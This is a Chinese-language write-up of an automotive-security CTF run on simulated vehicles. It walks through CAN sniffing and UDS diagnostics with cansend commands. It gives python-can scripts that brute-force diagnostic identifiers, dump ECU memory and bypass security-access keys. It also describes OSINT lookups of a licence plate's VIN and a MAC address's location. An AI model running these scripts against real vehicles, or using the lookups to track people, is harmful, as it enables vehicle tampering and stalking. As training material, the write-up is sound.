VSEC车联网安全CTF挑战
VSEC 车联网安全 CTF 挑战
前排提示，文中有一部分 candump 放在后台执行是因为我当时想不到发送的时候同时监视 candump 的方法，只能先写到日志里然后发完指令后查看日志文件
后来发现竟然有 python-can 这个库，一定程度上解决了这个问题，但是就发个包还要改脚本也挺麻烦的，后来发现这个终端是 tmux，所以可以自己分割窗口
比如执行：tmux split-window 会分为上下两个窗格，tmux split-window -h 会分为左右两个窗格，后续可以通过快捷键切换窗格，例如分割为左右两个窗格后可以先按下 ctrl+b 再按方向键的 ← → 来切换
注册
先在这里：https://vsec.blockharbor.io/ 注册账号登陆后点击 Capture the Flag

跳转到这个界面选择：Proving Grounds
会跳转到一个 CTFd 平台，就可以答题啦
Getting Started
Can you find the interface?
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E UDS Challenge Simulation, then launch the terminal.
What is the name of the CAN interface available on the virtual terminal?
-------------------------------------------------------------
翻译：此挑战在 VSEC 上的 Harborbay 车辆模拟器中进行。从主页进入 HarborBay。选择 Mach-E UDS 挑战模拟，然后启动终端。
虚拟终端上可用的 CAN 接口名称是什么？
回到 VSEC 平台，选择 Garage

选择 UDS Challenge (simulation)

再点击 Open Terminal 会打开一个终端

这就来到了操作的终端，感觉目前大多数在 linux 平台操作 CAN 总线都是先将 CAN 总线接口映射到 socketCAN，比如 pcan 可以用：ip link set can0 up type can bitrate 500000
想要看 CAN 接口名称可以在终端输入 ifconfig 或者 ip link，得到 flag：vcan0

Arbitration
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E UDS Challenge Simulation, then launch the terminal.
What is the Arbitration ID of the CAN frame being sent periodically on the CAN interface?
翻译：本次挑战在 VSEC 上的 Harborbay 车辆模拟器中进行。从主页进入 HarborBay。选择 Mach-E UDS 挑战模拟，然后启动终端。
在 CAN 接口上定期发送的 CAN 帧的仲裁 ID 是什么？
想要看 CAN 总线上发的什么可以使用 candump 指定特定的 CAN 接口，监听 CAN 总线上的数据，可以看到定期发送的 CAN 数据，ID 为 59E，因此 flag 为 59E

Data Field 1
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E UDS Challenge Simulation, then launch the terminal.
How many bytes of data are in the data field of the CAN frame being sent periodically on the CAN interface?
翻译：此挑战在 VSEC 上的 Harborbay 车辆模拟器中进行。从主页进入 HarborBay。选择 Mach-E UDS 挑战模拟，然后启动终端。
在 CAN 接口上定期发送的 CAN 帧的数据字段中有多少字节数据？
问你定期发送 CAN 帧的 DLC（Data Length Code）是多少，也就是 数据的长度，同样使用 candump vcan0 可以得到答案为 2
Data Field 2
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E UDS Challenge Simulation, then launch the terminal.
What is the value of the data field of the CAN frame being sent periodically on the CAN interface? Format: XXYY
翻译：此挑战在 VSEC 上的 Harborbay 车辆模拟器中进行。从主页进入 HarborBay。选择 Mach-E UDS 挑战模拟，然后启动终端。
在 CAN 接口上定期发送的 CAN 帧的数据字段的值是多少？格式：XXYY
数据就是 9E10
Message Frequency
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E UDS Challenge Simulation, then launch the terminal.
What is the frequency that the periodic CAN frame is transmit at? (in Hz)
翻译：此挑战在 VSEC 上的 Harborbay 车辆模拟器中进行。从主页进入 HarborBay。选择 Mach-E UDS 挑战模拟，然后启动终端。
周期性 CAN 帧的传输频率是多少？（单位为 Hz）
使用 candump -l vcan0 可以将 CAN 总线数据捕获为一个 log 文件，查看该 log 文件会有每条 CAN 数据记录的时间，题目问周期性 CAN 帧的传输频率，感觉不可能算的多精确，看上去基本就是一秒一个，所以试了一下答案就是 1...
OSINT
what is a great default password?
题目描述：???
Minus 1 million points if this is your actual password.
翻译：???
如果这是您的实际密码，则扣除 100 万分。
嗯.. 一开始以为三个问号表示的是三个字符，试了试 123 啥的不行，随手试了试 admin、password，结果是 password
Founding Fathers
题目描述：When was Block Harbor founded?
翻译：Block Harbor 是什么时候建立的？
搜一下 Block Harbor 在官网找到介绍，可以看到是 2014 年建立的

Vehicle OSINT
Finding a VIN
题目描述：Here's a license plate "DCR 660", it is registered in Michigan. Can you find the VIN?
翻译：这是车牌“DCR 660”，注册地为密歇根州。你能找到 VIN 吗？
以 "DCR 660"、"Michigan"、"VIN" 为关键词在 google 搜索，发现有个叫车牌查询的网站

进来之后按车牌查询，注意不要带空格，选择密歇根州

查询得到 VIN 码：YV4A22PK1H1184823

Make and model
题目描述：Here's a license plate "DCR 660", it is registered in Michigan. What is the make and model?
Format: year-make-model
翻译：这是牌照“DCR 660”，在密歇根州注册。品牌和型号是什么？
格式：年份-品牌-型号
嗯.. 在刚才的网站已经有了：2017-VOLVO-XC90
Manufactured at?
题目描述：Here's a license plate "DCR 660", it is registered in Michigan. Where was it manufactured at?
Format: City, Country
翻译：这是车牌“DCR 660”，在密歇根州注册。它是在哪里制造的？
格式：城市，国家
上一个网站信息有限，且要收费... 这个网站信息比较全：https://www.lookupaplate.com/michigan/DCR660/
可以看到城市和国家分别是：TORSLANDA 和 SWEDEN，因此 flag 为：TORSLANDA, SWEDEN（注意逗号后面的空格...）

Imported when?
题目描述：Here's a license plate "DCR 660", it is registered in Michigan. When was this car imported to the US?
Format: dd-mm-yyyy
翻译：这是车牌“DCR 660”，在密歇根州注册。这辆车什么时候进口到美国的？
格式：dd-mm-yyyy
实在找不到好用的网站查询，基本都要花钱，然后直接搜了搜 VIN 码，找到了这么个网页：https://www.zauba.com/USA-import-v/shipment-date-2017-05-01T00%3A00%3A00Z/country-SE-data.html，展开详情后搜索 VIN 码定位到具体的日期：2017 年 5 月 11 号，flag 为：11-05-2017

Mac Track!
题目描述：We've managed to identify the MAC address of a vehicle of interest, can you help us track down where it was located on December 8'th, 2022? We need the latitude and longitude to two decimal places.
MAC: 2A:38:5C:91:E5:27
Hint: format XX.XX,XX.XX
翻译：我们已成功识别出相关车辆的 MAC 地址，您能帮我们追踪它在 2022 年 12 月 8 日的位置吗？我们需要精确到小数点后两位的纬度和经度。
MAC：2A:38:5C:91:E5:27
提示：格式 XX.XX,XX.XX
这题需要用到 https://wigle.net 这个网站，注册账号后点击 View 下面的 Advanced Search 将题目给出的 MAC 地址输进去查询

查到之后点击去会显示一个结果列表

找到 2022 年 12 月的经纬度信息42.34 和 -83.00，然后需要四舍五入... 所以 flag 为：42.35,-83.01

ICSim
Unlock my door
题目描述：Please download https://github.com/zombieCraig/ICSim and read the instructions to compile/run. Once setup, set the seed value -s 10000 for both the ./controls and ./icsim. Next Answer the following questions. Use any tool you would like in order to arrive at the answers.
What is the arbitration id for door unlocks?
NOTE: Submit in the format 0xARBID
翻译：请下载 https://github.com/zombieCraig/ICSim 并阅读编译/运行说明。设置完成后，为 ./controls 和 ./icsim 设置种子值 -s 10000。下一步回答以下问题。使用任何您想要的工具来获得答案。
门解锁的仲裁 ID 是什么？
注意：以 0xARBID 格式提交
这道题的出题方式还挺不错的，这个 ICSim 本来就支持自定义种子，种子相同的情况下仲裁 ID 是一样的，因此环境让选手自己搭建，主办方指定一个种子就好了
直接参考项目 README 搭建起来后指定种子运行
/icsim vcan0 -s 10000
./controls vcan0 -s 10000
然后开启一个窗口使用 candump -l vcan0 记录一下 CAN 信号，然后操作几次车门（在 controls 界面按键盘右边的 shift + A ）结束后让 kimi 写个小脚本，统计一下不同的 CAN ID 出现的次数，例如：
# 导入所需的库
from collections import defaultdict
import re
import sys
def count_can_ids(log_file_path):
# 创建一个字典来存储CAN ID及其出现次数
can_id_count = defaultdict(int)
# 尝试打开并读取candump日志文件
try:
with open(log_file_path, 'r') as file:
for line in file:
# 使用正则表达式提取CAN ID
match = re.search(r'\(\d+\.\d+\)\s+vcan0\s+(\w+)#', line)
if match:
# 将匹配到的CAN ID添加到字典中，并增加其计数
can_id = match.group(1)
can_id_count[can_id] += 1
except FileNotFoundError:
print(f"Error: The file '{log_file_path}' does not exist.")
sys.exit(1)
except Exception as e:
print(f"An error occurred: {e}")
sys.exit(1)
# 打印统计结果
for can_id, count in sorted(can_id_count.items()):
print(f"CAN ID {can_id} appears {count} times.")
# 从命令行参数获取日志文件路径
if len(sys.argv) != 2:
print("Usage: python script.py <path_to_candump_log_file>")
sys.exit(1)
log_file_path = sys.argv[1]
count_can_ids(log_file_path)
我只操作了 5 此车门，那么这里出现 5 次的就是车门解锁的仲裁 ID：5C6 了，提交：0x5C6

Speedometer ArbId
题目描述：Please download https://github.com/zombieCraig/ICSim and read the instructions to compile/run. Once setup, set the seed value -s 10000 for both the ./controls and ./icsim. Next Answer the following questions. Use any tool you would like in order to arrive at the answers.
What is the abritration id for the speedometor display?
翻译：请下载 https://github.com/zombieCraig/ICSim 并阅读编译/运行说明。设置完成后，为 ./controls 和 ./icsim 设置种子值 -s 10000。下一步回答以下问题。使用任何您想要的工具来获得答案。
速度计显示屏的 ID 是什么？
这道题应该是想问仪表盘上显示车速的 CAN ID 是什么，可以使用 cansniffer -c vcan0 高亮显示出变化的 CAN 报文，看了一会，发现当加速到最高速时 0x779 不变了，松开加速键它的值在减少，因此 0x779 就是 flag

VSEC HarborBay
Simulation VIN
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E UDS Challenge Simulation, then launch the terminal.
Retrieve the VIN of the simulation using UDS.
翻译：此挑战在 VSEC 上的 Harborbay 车辆模拟器中进行。从主页进入 HarborBay。选择 Mach-E UDS 挑战模拟，然后启动终端。
使用 UDS 检索模拟的 VIN。
首先使用 candump -l vcan0 & 把接收到的 CAN 消息保存到日志中，方便查看
使用 cansend vcan0 7df#0322f190发送一个诊断读取 VIN 码的消息，可以看到是 7E8 回复了一部分 VIN 码

因此再发送流控帧把剩余的内容读出来
cansend vcan0 7df#0322f190
cansend vcan0 7E0#3000000000000000

提取 VIN 码后转为 ASCII 得到 flag：flag{v1n_BHmach3}
至于为什么 ID 是 7E0，可以参考这张表，既然 ECU 回复的 ID 是 7E8，那你去请求自然要是 7E0 了

Startup Message
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E UDS Challenge Simulation, then launch the terminal.
It seems the simulation broadcasts some diagnostic information on arbitration ID 0x7DF when booting up, what does this message say? (in ASCII)
HINT: How can you get an ECU to restart?
翻译：此挑战在 VSEC 上的 Harborbay 车辆模拟器中进行。从主页进入 HarborBay。选择 Mach-E UDS 挑战模拟，然后启动终端。
似乎模拟在启动时广播了一些有关仲裁 ID 0x7DF 的诊断信息，这条消息说了什么？（ASCII 格式）
提示：如何让 ECU 重新启动？
想要看初始的值，那就给他复位一下呗

076730477265336E 转为 ASCII：g0Gre3n

Engine Trouble?
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E UDS Challenge Simulation, then launch the terminal.
The simulation's engine light is on, can you read the diagnostic code?
Check out our youtube walkthrough if you get stuck: https://www.youtube.com/watch?v=IaUL0dA4Z_Y
The format of the DTC is Pxxxx-xx. Example answer: P1234-01
翻译：此挑战在 VSEC 上的 Harborbay 车辆模拟器内进行。从主页进入 HarborBay。选择 Mach-E UDS 挑战模拟，然后启动终端。
模拟的发动机灯亮了，你能读出诊断代码吗？
如果你遇到困难，请查看我们的 YouTube 演示：https://www.youtube.com/watch?v=IaUL0dA4Z_Y
DTC 的格式为 Pxxxx-xx。示例答案：P1234-01
使用 UDS 的 19 服务查看 DTC，其常用子服务如下：
| 子功能ID | 子功能描述 |
|---|---|
| 0x00 | ISO SAE Reserved |
| 0x01 | Report Number Of DTC By Status Mask |
| 0x02 | Report DTC By Status Mask |
| 0x03 | Report DTC Snapshot Identification |
| 0x04 | Report DTC Snapshot Record By DTC Number |
| 0x05 | Report DTC Stored Data By Record Number |
| 0x06 | Report DTC External Data Record By DTC Number |
| 0x07 | Report Number Of DTC By Severity Mask Record |
| 0x08 | Report DTC By Severity Mask Record |
| 0x09 | Report Severity Information Of DTC |
| 0x0A | Report All Supported DTC |
| 0x0B | Report First Test Failed DTC |
| 0x0C | Report First Confirmed DTC |
| 0x0D | Report Most Recent Test Failed DTC |
| 0x0E | Report Most Recent Confirmed DTC |
| 0x0F | Report Mirror Memory DTC By Status Mask |
| 0x10 | Report Mirror Memory DTC Extended Data Record By DTC Number |
| 0x11 | Report Number Of Mirror Memory DTC By Status Mask |
| 0x12 | Report Number Of Emissions OBD DTC By Status Mask |
| 0x13 | Report Emissions OBD DTC By Status Mask |
| 0x14 | Report DTC Fault Detection Counter |
| 0x15 | Report DTC With Permanent Status |
| 0x16 | Report DTC Extended Data Record By Record Number |
| 0x17 | Report User Defined Memory DTC By Status Mask |
| 0x18 | Report User Defined Memory DTC Snapshot Record By DTC Number |
| 0x19 | Report User Defined Memory DTC Extended Data Record By DTC Number |
| 0x1A – 0x41 | ISO SAE Reserved |
| 0x42 | Report WWH OBD DTC By Mask Record |
| 0x43 – 0x54 | ISO SAE Reserved |
| 0x55 | Report WWH OBD DTC With Permanent Status |
| 0x56 – 0x7F | ISO SAE Reserved |
这次来使用状态掩码读取 DTC，也就是 02 子服务，但掩码是啥呢，定义如下，我们来读 confirmedDTC，也就是 bit3 为 1，其余为 0，0000 1000 => 08
| Bit | Meaning |
|---|---|
| 0 | testFailed |
| 1 | testFailedThisMonitoringCycle |
| 2 | pendingDTC |
| 3 | confirmedDTC |
| 4 | testNotCompletedSinceLastClear |
| 5 | testFailedSinceLastClear |
| 6 | testNotCompletedThisMonitoringCycle |
| 7 | warningIndicatorRequested |
cansend vcan0 7DF#03190208
收到：7E8#075902083E9F01AB
对收到的数据 3E9F01AB 进行解析，前两位有一个对应关系
| 00 | P 动力总成 |
|---|---|
| 01 | C 底盘 |
| 10 | B 车身 |
| 11 | U 网络 |
根据这个表进行解析，但根据提示，应该后面还跟着东西，所以把后面的 01 也带上得到：P3E9F-01

参考：https://blog.csdn.net/qq_40309666/article/details/133955750
Secrets in Memory?
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E UDS Challenge Simulation, then launch the terminal.
It seems the simulation allows access to only some off-chip sections of memory, are there any secrets in the visible memory?
The memory region starts at 0xC3F80000 and the flag is in the format flag{...}.
翻译：这项挑战在 VSEC 上的 Harborbay 车辆模拟器中进行。从主页进入 HarborBay。选择 Mach-E UDS 挑战模拟，然后启动终端。
似乎模拟只允许访问一些片外内存部分，可见内存中有什么秘密吗？
内存区域从 0xC3F80000 开始，标志的格式为 flag{...}。
读 0xC3F80000 这块的内存，那就是用 UDS 的 23 服务了
cansend vcan0 7DF#072314C3F80000FF
其中 07 表示诊断报文的长度，23 表示子功能，14 表示要读取的 size 是用 1 个字节表示的，地址是用 4 个字节表示的，后面紧跟地址 C3F80000 和 size：FF
cansend vcan0 7E0#3000000000000000 再发个流控帧


然后又试了试后面很多地址全是空的，最终忍不了了，写个脚本吧，才发现机器上带着 python-can 的库...
import can
import time
import binascii
bus = can.Bus(interface='socketcan', channel='vcan0')
bus.set_filters([{"can_id": 0x7E8, "can_mask": 0xFFF, "extended": False}])
recvdata = "[DATA]:"
for hex_value in range(0xC3F83000, 0xc3f87000, 0xFF):
byte1 = (hex_value >> 24) & 0xFF
byte2 = (hex_value >> 16) & 0xFF
byte3 = (hex_value >> 8) & 0xFF
byte4 = hex_value & 0xFF
candata=[0x07, 0x23, 0x14, byte1, byte2, byte3, byte4, 0xFF]
message = can.Message(arbitration_id=0x7DF, is_extended_id=False, dlc=8, data=[0x02, 0x10, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00])
bus.send(message, timeout=0.2)
msg = bus.recv()
message = can.Message(arbitration_id=0x7DF, is_extended_id=False, dlc=8, data=candata)
bus.send(message, timeout=0.2)
msg = bus.recv()
recvdata += binascii.hexlify(msg.data).decode('utf-8')[6:]
message = can.Message(arbitration_id=0x7E0, is_extended_id=False, dlc=8, data=[0x30, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00])
bus.send(message, timeout=0.2)
temp = 0
while temp < 36:
msg = bus.recv()
tempdata = binascii.hexlify(msg.data).decode('utf-8')[2:]
if tempdata != "00000000000000":
recvdata += tempdata
temp = temp + 1
print("\n========== READMEM ==========")
print(recvdata)
print("========== READMEM ==========\n")
bus.shutdown()
这距离给的地址也太远了吧... 幸亏没手敲


得到 flag：flag{mem+r34d}
Security Access Level 3
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E UDS Challenge Simulation, then launch the terminal.
The simulation is implementing service 0x27 Security Access Level 3 using MAAATH. Can you find the key and break in?
The flag is the key to unlock with seed 1337 in hex (example a5a5)
Unlock Hint for 0 points
flag is the two bytes of key you send (example: 55aa)
翻译：此挑战在 VSEC 上的 Harborbay 车辆模拟器内进行。从主页进入 HarborBay。选择 Mach-E UDS 挑战模拟，然后启动终端。
模拟正在使用 MAAATH 实现服务 0x27 安全访问级别 3。你能找到钥匙并闯入吗？
标志是使用十六进制种子 1337 解锁的钥匙（例如 a5a5）
解锁提示 0 分
标志是您发送的两个字节的密钥（例如：55aa）
这道题提示了个：MAAATH，应该是 MATH，数学的意思，然后就他妈的没有然后了...
俺想问问看这篇文章的师傅们，让你想，你能想到什么？？？我写了个脚本爆破了一下，跑了几次就返回 NRC 36 了（尝试获取安全访问次数的次数超过了服务器的安全策略允许的次数）

倒是每次先给 ECU reset 一下是可以的，虽然只有两个字节，但是我感觉不抱希望，而且题目要求你解出来特定 seed 的 key 但爆破成功次数比较少的话怕是也不好找规律吧... 例如题目说种子是 0x1337 时的 key，我不觉得我能恰好爆破到一个 0x1337 的 seed 的 key...
然后在 github 发现了有人写了 wp，说是 seed 取反（一开始机翻是补码，后来看代码应该是直接取反）
0x1337 = 0001001100110111
按位取反
1110110011001000
最终得到 ecc8 也就是 flag

这好歹提示个位操作也行哇... 给自己做个表情包笑死哈哈哈
写了个脚本跑了几次，确实是对的（6704 表示通过了安全访问）

Security Access Level 1
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E UDS Challenge Simulation, then launch the terminal.
Level 3 provides access to a new diagnostic session and some new memory at 0x1A000, but we still don't have full control of the module. Can you provide a valid key for security access level 1?
The flag is the key to unlock with seed 7D0E1A5C in hex (example 12345678)
翻译：此挑战在 VSEC 上的 Harborbay 车辆模拟器内进行。从主页进入 HarborBay。选择 Mach-E UDS 挑战模拟，然后启动终端。
级别 3 提供对新诊断会话和 0x1A000 处的一些新内存的访问，但我们仍然无法完全控制该模块。您能为安全访问级别 1 提供有效的密钥吗？
该标志是使用十六进制种子 7D0E1A5C（例如 12345678）解锁的密钥
题目说，通过了安全访问级别 3 后可以读取 0x1A000 处的新的内存访问，那就通过安全访问 level3 后读取这块内存看看到底存了些啥

解码也没得到啥：

写个脚本加长长度读一下看看，读取范围设置到 0x1A000 到 0x1AFFF，可以看到，在后面会记录请求的种子，跟在种子后面还有一串值，长度和种子一样的

多请求几次，记录如下：
9102870c c43b2d1b
d64217a8 837bbdbf
241adbeb 712371fc
9bb26411 ce8bce06
找规律，发现两个异或结果始终为：0x5539aa17，因此猜测该算法是使用种子异或 0x5539aa17

根据猜想的算法尝试通过安全访问 level1 成功

因此，此题 flag 为 7D0E1A5C 异或 0x5539aa17 即：2837b04b

VSEC Garage: User Space Diagnostics
User Space Diagnostics 的系列题目需要用到另一个终端

Read Data By Identifier
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E User Space Diagnostics Challenge Simulation, then launch the terminal.
Can you identify the data?
翻译：这项挑战在 VSEC 上的 Harborbay 车辆模拟器中进行。从主页进入 HarborBay。选择 Mach-E 用户空间诊断挑战模拟，然后启动终端。
您能识别数据吗？
打开里面 candump 也没东西，有点不知所措了🤦，发了个 7DF 的也没人（ECU）回复，试着给 7E0 发了个请求倒是回复了个 NRC，表示这个 ID 不支持，再根据题目意思，看样子是想让我爆破一下？搓个脚本试试
import can
import time
import binascii
bus = can.Bus(interface='socketcan', channel='vcan0')
for i in range(0,0xFF):
for j in range(0,0xFF):
message = can.Message(arbitration_id=0x7E0, is_extended_id=False, dlc=8, data=[0x03, 0x22, i, j, 0x00, 0x00, 0x00, 0x00])
bus.send(message, timeout=0.2)
msg = bus.recv()
bus.shutdown()
当发到 0008 的时候就正常读取到了信息，算出题人有良心，记一颗红豆

那么接下来发个流控，读完它
cansend vcan0 7E0#03220008
cansend vcan0 7E0#3000000000000000

把数据解析一下得到：bh{identified_by_what???}
Routine Control
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E User Space Diagnostics Challenge Simulation, then launch the terminal.
I hear routine control has a lot of fun features.
翻译：这项挑战在 VSEC 上的 Harborbay 车辆模拟器中进行。从主页进入 HarborBay。选择 Mach-E 用户空间诊断挑战模拟，然后启动终端。
我听说常规控制有很多有趣的功能。
使用 Routine Control 服务来执行已定义的步骤序列并获取任何相关结果，服务 ID 是 0x31
子功能也比较简单，开始（01）、停止（02）、获取结果（03）
那先试试开始执行吧，简单试了试都是否定响应，估计也得爆破

写个脚本跑去吧
import can
import time
import binascii
bus = can.Bus(interface='socketcan', channel='vcan0')
bus.set_filters([{"can_id": 0x7E8, "can_mask": 0xFFF, "extended": False}])
for i in range(0,0xFF):
for j in range(0,0xFF):
time.sleep(0.01)
message = can.Message(arbitration_id=0x7E0, is_extended_id=False, dlc=8, data=[0x04, 0x31, 0x01, i, j, 0x00, 0x00, 0x00])
bus.send(message, timeout=0.2)
msg = bus.recv()
result = binascii.hexlify(msg.data).decode('utf-8')
if result == "037f3131":
pass
else:
print("i: ",hex(i)," j: ",hex(j))
bus.shutdown()
跑了一段时间发现 1337 是响应的，因此先执行 1337 然后再获取结果，得到：bh{c0ntroll1ng_th3_r0ut1nes}

Security Access Level 1
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E User Space Diagnostics Challenge Simulation, then launch the terminal.
I hear single byte XOR keys are a great security measure, can you prove me wrong?
翻译：此挑战在 VSEC 上的 Harborbay 车辆模拟器中进行。从主页进入 HarborBay。选择 Mach-E 用户空间诊断挑战模拟，然后启动终端。
我听说单字节 XOR 密钥是一种很好的安全措施，你能证明我错了吗？
安全访问 level1 单字节的异或密钥，那直接上脚本爆破吧

import can
import time
import binascii
bus = can.Bus(interface='socketcan', channel='vcan0')
bus.set_filters([{"can_id": 0x7E8, "can_mask": 0xFFF, "extended": False}])
for key in range(0,0xFF):
message = can.Message(arbitration_id=0x7E0, is_extended_id=False, dlc=8, data=[0x02, 0x11, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00])
bus.send(message, timeout=0.2)
msg = bus.recv()
time.sleep(1)
message = can.Message(arbitration_id=0x7E0, is_extended_id=False, dlc=8, data=[0x02, 0x27, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00])
bus.send(message, timeout=0.2)
msg = bus.recv()
result = binascii.hexlify(msg.data).decode('utf-8')
seed = result[6:14]
key1 = int(seed[:2],16) ^ key
key2 = int(seed[2:4],16) ^ key
key3 = int(seed[4:6],16) ^ key
key4 = int(seed[6:8],16) ^ key
message = can.Message(arbitration_id=0x7E0, is_extended_id=False, dlc=8, data=[0x06, 0x27, 0x02, key1, key2, key3, key4, 0x00])
bus.send(message, timeout=0.2)
msg = bus.recv()
result = binascii.hexlify(msg.data).decode('utf-8')
if result == "037f2735":
pass
else:
print("key: ",hex(key))
bus.shutdown()
直到爆破到 0x20 的时候才成功，再发个流控得到 flag

因此：bh{whats_wrong_with_static_keys?}
import can
import time
import binascii
bus = can.Bus(interface='socketcan', channel='vcan0')
bus.set_filters([{"can_id": 0x7E8, "can_mask": 0xFFF, "extended": False}])
message = can.Message(arbitration_id=0x7E0, is_extended_id=False, dlc=8, data=[0x02, 0x27, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00])
bus.send(message, timeout=0.2)
msg = bus.recv()
result = binascii.hexlify(msg.data).decode('utf-8')
seed = result[6:14]
key1 = int(seed[:2],16) ^ 0x20
key2 = int(seed[2:4],16) ^ 0x20
key3 = int(seed[4:6],16) ^ 0x20
key4 = int(seed[6:8],16) ^ 0x20
message = can.Message(arbitration_id=0x7E0, is_extended_id=False, dlc=8, data=[0x06, 0x27, 0x02, key1, key2, key3, key4, 0x00])
bus.send(message, timeout=0.2)
msg = bus.recv()
result = binascii.hexlify(msg.data).decode('utf-8')
print(result)
message = can.Message(arbitration_id=0x7E0, is_extended_id=False, dlc=8, data=[0x30, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00])
bus.send(message, timeout=0.2)
msg = bus.recv(timeout=0.2)
result = binascii.hexlify(msg.data).decode('utf-8')
print(result)
msg = bus.recv(timeout=0.2)
result = binascii.hexlify(msg.data).decode('utf-8')
print(result)
msg = bus.recv(timeout=0.2)
result = binascii.hexlify(msg.data).decode('utf-8')
print(result)
msg = bus.recv(timeout=0.2)
result = binascii.hexlify(msg.data).decode('utf-8')
print(result)
msg = bus.recv(timeout=0.2)
result = binascii.hexlify(msg.data).decode('utf-8')
print(result)
bus.shutdown()
Read Memory By Address
题目描述：This challenge is within the Harborbay vehicle simulator on VSEC. From the home page, enter HarborBay. Select the Mach-E User Space Diagnostics Challenge Simulation, then launch the terminal.
I wonder whats at 0xc0ffe000?
翻译：此挑战在 VSEC 上的 Harborbay 车辆模拟器内进行。从主页进入 HarborBay。选择 Mach-E 用户空间诊断挑战模拟，然后启动终端。
我想知道 0xc0ffe000 是什么？
就是读内存呗，上脚本